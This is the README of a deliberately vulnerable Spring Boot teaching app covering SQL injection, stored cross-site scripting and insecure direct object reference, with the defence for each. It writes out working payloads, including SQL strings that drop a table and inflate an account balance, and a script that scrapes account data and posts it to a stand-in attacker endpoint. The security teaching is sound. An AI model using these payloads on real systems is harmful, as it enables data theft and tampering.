 # Common Security Vulnerability Demo

The purpose of this application is to illustrate a few common security vulnerabilities in web applications. Understanding how these exploits work is critical in being able to defend against them. 

## Application Setup

This application runs in two different modes: 
* Secure - proper protections and being used to mitigate the attacks
* Insecure - the application is exposed to attacks

To run it in either mode, use the spring profile field when starting the app as follows:

Insecure

`mvn spring-boot:run -Dspring.profiles.active=insecure`
Use a browser to access `http://localhost:8080`

Secure

`mvn spring-boot:run -Dspring.profiles.active=secure`
User a browser to access `http://localhost:8081`

In secure mode, you also have the option to enable or disable input validation using the following flag in `application-secure.properties`

`input.validation.enabled=false`

Disabling input validation will allow you to illustrate the power of an ORM and output encoding in protecting against attacks even when input validation does not occur.

Currently, the application illustrates the following vulnerabilities
* SQL Injection
* Stored Cross-site scripting (XSS)
* Insecure Direct Object Reference

## SQL Injection

To exploit this vulnerability, log in as a customer and inject SQL into the first name field as follows

`'; SQL Here; --`

For example:

`' DROP TABLE customer; --`

`' UPDATE bank_account SET balance=999999999 WHERE customer_id=2; --`

You may view the database by logging into the H2 console by clicking the link from the index page. The connection details are found in the application.properties file.

Defending against this vulnerability can be done at multiple levels
* ORM
* Input validation
* Database permissions restrictions

## Cross-Site Scripting

To exploit this vulnerability, log in as a customer and inject the following javascript into the first name field as follows

`<script type="text/javascript">$(document).ready(function(){var accountInfo="";$("table").children("tbody").children("tr").each(function(){$(this).children("td").each(function(){accountInfo=accountInfo+";"+$(this).text();});});$.post("http://localhost:8080/receive-hack", {accountInfo:accountInfo});});alert("hacked");</script>`

This attack will allow a malicious user to inject a script into the database that then will run on the employee level and expose customer details to another endpoint controlled by the malicious user. In this case, it is simply the same app server, but this would be different in a real attack.

Defending against this vulnerability can be done at multiple levels
* Validating user input 
* Encoding dynamic output on web pages

## Insecure Direct Object Reference

To exploit this vulnerability, log in as a customer and type in the following url which will allow you to access sensitive employee-only information directly.

`/sensitive`

This attack allows users to access information that they should not be authorized to access. 

Defending against this vulnerability can be done through multiple authorization mechanisms
* URL-level protection
* Method-level security with role-based access configuration
* Method pre-authorization configuration

